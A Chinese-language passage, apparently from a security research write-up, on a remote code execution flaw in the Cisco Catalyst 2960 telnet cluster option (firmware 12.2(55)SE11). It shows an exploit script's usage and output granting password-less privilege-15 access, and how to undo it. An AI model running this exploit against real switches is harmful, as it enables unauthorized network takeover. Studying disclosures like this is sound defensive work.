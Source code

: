 根据对较旧的固件SE1的静态和动态分析的了解，我们为最新的建议固件12.2（55）SE11构建了一个漏洞利用代码。固件版本之间的唯一区别，在于函数和指针偏移的不同。此外，该漏洞利用代码运行机制使得我们可以轻松地将更改还原。下面举例说明： 



```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --set
[+] Connection OK
[+] Recieved bytes from telnet service: 'xffxfbx01xffxfbx03xffxfdx18xffxfdx1f'
[+] Sending cluster option
[+] Setting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Trying 192.168.88.10...
Connected to 192.168.88.10.
Escape character is '^]'.
catalyst1#show priv
Current privilege level is 15
catalyst1#show ver
Cisco IOS Software, C2960 Software (C2960-LANBASEK9-M), Version 12.2(55)SE11, RELEASE SOFTWARE (fc3)
...
System image file is "flash:c2960-lanbasek9-mz.122-55.SE11.bin"
...
cisco WS-C2960-48TT-L (PowerPC405) processor (revision B0) with 65536K bytes of memory.
...
Model number                    : WS-C2960-48TT-L
...
Switch Ports Model              SW Version            SW Image                 
------ ----- -----              ----------            ----------               
*    1 50    WS-C2960-48TT-L    12.2(55)SE11          C2960-LANBASEK9-M        
Configuration register is 0xF
```

撤消更改: 



```
$ python c2960-lanbasek9-m-12.2.55.se11.py 192.168.88.10 --unset
[+] Connection OK
[+] Recieved bytes from telnet service: 'xffxfbx01xffxfbx03xffxfdx18xffxfdx1frncatalyst1#'
[+] Sending cluster option
[+] Unsetting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Escape character is '^]'.
User Access Verification
Password:
```

这个RCE漏洞的POC代码可用于两种固件版本。这个漏洞利用代码的DoS版本可作为metasploit模块使用，适用于Cisco报告中提到的大多数型号的交换机。
